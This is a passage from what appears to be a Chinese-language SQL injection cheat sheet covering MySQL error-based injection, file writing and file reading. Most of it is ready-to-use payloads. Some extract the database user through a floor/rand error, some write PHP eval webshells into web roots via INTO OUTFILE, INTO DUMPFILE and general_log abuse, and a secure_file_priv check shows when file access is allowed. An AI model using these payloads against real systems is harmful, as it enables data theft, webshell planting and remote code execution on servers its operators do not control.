```sql
'1' and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a) --+
```

### 文件写入

* 条件

- [x] 目录具有读写权限。
- [x] 网站绝对路径。
- [x] `secure_file_pri`为空。

```sql
'-1' union select 1,"<?php @eval($_GET[x]);?>",3,4,5 into outfile 'C:/Inetpub/wwwroot/cc.php'
```

写一句话木马：

```sql
union select 1,2,'<?php phpinfo()?>' into outfile "E\\phpStudy\\PHPTutoral\\www\\1.php" --+
union select 1,2,'<?php phpinfo()?>' into dumpfile "E\\phpStudy\\PHPTutoral\\www\\1.php" --+
```

`outfile`和`dumpdile`的区别：

`outfile`后面不能接 0x 开头或者 char 转换以后的路径，只能是单引号路径,但是值的部分可以是 16 进制。在使用 outfile 时,文件中一行的末尾会自动换行,且可以导出全部数据,同时如果文本中存在 \n 等字符,会自动转义成 \n,也就是会多加一个 \。outfile 函数可以导出多行，而 `dumpfile` 只能导出一行数据；outfile 函数在将数据写到文件里时有特殊的格式转换，而 dumpfile 则保持原数据格式。而使用 dumpfile 时,一行的末尾不会换行且只能导出部分数据（这里比较数据比较少,没有体现出来）；但 dumpfile 不会自动对文件内容进行转义,而是原意写入（这就是为什么我们平时 UDF 提权时使用 dumpfile 来写入的原因）。

堆叠注入写木马：

```sql
# 主要利用 mysql 日志来写 shell。
set global general_log = "ON";set global general_log_file='C:/wamp64/www/ma.php';select '<?php eval($_POST[cmd]);?>';
```

### 文件读取

* 条件

- [x] 目录具有读写权限。
- [x] `secure_file_pri`为空。

读取`secure_file_priv`配置：

```sql
SHOW VARIABLES LIKE "secure_file_priv"
```

|   值   |           说明           |
| :- | :- |
|`null`|      不允许导入导出      |
|`/tmp`| 只能在 /tmp 目录下导入导出 |
| `空` |       允许导入导出       |

